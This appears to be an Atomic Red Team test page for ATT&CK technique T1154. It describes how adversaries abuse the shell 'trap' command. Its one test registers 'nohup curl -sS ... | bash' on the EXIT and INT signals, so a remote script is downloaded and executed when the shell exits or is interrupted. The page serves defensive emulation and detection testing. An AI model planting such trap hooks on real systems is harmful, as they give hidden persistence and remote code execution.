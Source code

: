 # T1154 - Trap
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1154)
<blockquote>The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Trap](#atomic-test-1---trap)


<br/>

## Atomic Test #1 - Trap
After exiting the shell, the script will download and execute.

After sending a keyboard interrupt (CTRL+C) the script will download and execute.

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux

#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| payload_sh_file | URL of the payload .sh file. | Url |https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh|

#### Run it with `sh`!
```
trap 'nohup curl -sS #{payload_sh_file} | bash' EXIT
exit
trap 'nohup curl -sS #{payload_sh_file} | bash' INT
```
<br/>
